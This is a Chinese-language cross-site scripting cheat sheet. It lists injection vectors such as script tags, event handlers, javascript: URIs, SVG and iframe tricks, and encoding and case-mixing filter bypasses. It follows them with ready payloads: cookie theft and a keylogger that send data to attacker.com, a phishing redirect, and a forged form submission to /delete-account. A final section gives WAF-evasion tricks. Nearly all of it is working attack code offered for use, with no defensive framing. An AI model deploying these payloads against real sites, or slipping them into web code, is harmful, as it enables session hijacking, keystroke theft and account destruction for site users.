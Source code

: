 # 常见XSS注入手法

1. 存储型: `<script>alert('XSS')</script>`
2. 反射型: `<img src="x" onerror="alert('XSS')">` 变种: `<img src="javascript:alert('XSS')">` | `<img src="data:image/svg+xml;base64,PHN2ZyBpZD0ieCIg...">`
3. DOM-based XSS: `<a href="javascript:alert('XSS')">点击我</a>`
4. HTML 实体编码绕过: `&lt;script&gt;alert('XSS')&lt;/script&gt;` | `\u003cscript\u003ealert('XSS')\u003c/script\u003e` | `<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></iframe>`
5. 标签拆分绕过: `<scr<script>ipt>alert('XSS')</scr</script>ipt>`
6. 利用 `<svg>` 向量: `<svg onload="alert('XSS')"></svg>` | `<svg><script>eval('alert\x28"XSS"\x29')</script></svg>`
7. 利用事件处理器: `<body onload="alert('XSS')">` | `<div onmouseover="alert('XSS')">悬停我</div>` | `<a href="#" onclick="alert('XSS')">点击我</a>`
8. JavaScript 伪协议（javascript:）: `<a href="javascript:alert('XSS')">点击</a>` | `<a href="JaVaScRiPt:alert('XSS')">点击</a>` | `<a href="javascript:eval('alert\x281\x29')">点击</a>`
9. 利用 `<iframe>` 或 `<embed>`: `<iframe src="javascript:alert('XSS')"></iframe>` | `<embed src="data:text/html,<script>alert('XSS')</script>">`
10. 大小写混合绕过: `<ScRiPt>alert('XSS')</ScRiPt>`
11. 利用注释绕过: `<!--><script>alert('XSS')</script>-->`

## 常见攻击载荷

1. 窃取 Cookie: `<script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>`
2. 重定向到钓鱼页面: `<script>window.location.href='http://phishing-site.com';</script>`
3. 键盘记录器:

```js
<script>
document.addEventListener('keypress', function(e) {
  fetch('https://attacker.com/log', {method: 'POST', body: e.key});
});
</script>
```

4. 自动提交表单（CSRF + XSS）:

```js
<script>
let form = document.createElement('form');
form.method = 'POST';
form.action = '/delete-account';
document.body.appendChild(form);
form.submit();
</script>
```

## 绕过 WAF技巧

1. 使用 `String.fromCharCode()` 构造字符串:

```js
eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))
// 等价于 alert('XSS')
```

2. 使用模板字符串（ES6）：``${alert`XSS`}``
3. 利用 top、parent、self 等全局对象：`top['alert']('XSS')`
